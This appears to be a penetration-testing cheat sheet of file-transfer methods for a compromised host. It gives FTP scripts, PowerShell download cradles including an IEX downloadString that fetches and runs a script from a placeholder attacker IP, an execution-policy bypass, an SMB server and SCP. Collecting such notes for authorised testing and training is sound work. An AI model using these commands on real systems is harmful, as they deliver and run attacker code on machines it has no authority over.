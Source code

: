 # File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
FTP reverse shell
echo "open <IP>" > ftp.txt  
echo "offsec" >> ftp.txt  
echo "offsec" >> ftp.txt  
echo "bin" >> ftp.txt  
echo "get file.exe" >> ftp.txt  
echo "bye" >> ftp.txt   

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux

### Powershell
In Kali
python -m SimpleHTTPServer 80
#### In reverse shell - Windows

powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe

#### Non-interactive execute powershell file

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

### SCP
After login through ssh
scp <fileToUpload> user@remote:/path
